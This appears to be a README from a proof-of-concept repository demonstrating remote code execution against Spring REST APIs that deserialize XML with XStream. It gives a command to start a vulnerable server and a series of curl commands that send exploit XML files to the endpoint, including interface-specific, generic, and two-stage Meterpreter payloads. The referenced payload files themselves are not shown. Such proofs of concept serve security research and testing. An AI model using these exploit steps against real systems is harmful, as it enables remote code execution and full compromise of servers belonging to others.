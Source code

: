 ## XStreamServer

RCE Exploit PoC for Spring based RESTFul APIs using XStream as Unmarshaler

Start the server using the maven jetty plugin:
mvn -Djetty.port=8080 -DDebug clean  jetty:run

# Expected use:
curl --header "content-type: application/xml" --data @contact.xml "http://192.168.239.147:8080/contacts"

# Exploit knowing the interface:
curl --header "content-type: application/xml" --data @exploit-interface.xml "http://192.168.239.147:8080/contacts"

# Generic Exploit:
curl --header "content-type: application/xml" --data @exploit-general.xml "http://192.168.239.147:8080/contacts"

# Meterpreter Exploit:

curl --header "content-type: application/xml" --data @meterpreter-stage1.xml "http://192.168.239.147:8080/contacts"
curl --header "content-type: application/xml" --data @meterpreter-stage2.xml "http://192.168.239.147:8080/contacts"

curl --header "content-type: application/xml" --data @meterpreter-iface-stage1.xml "http://192.168.239.147:8080/contacts"
curl --header "content-type: application/xml" --data @meterpreter-iface-stage2.xml "http://192.168.239.147:8080/contacts"

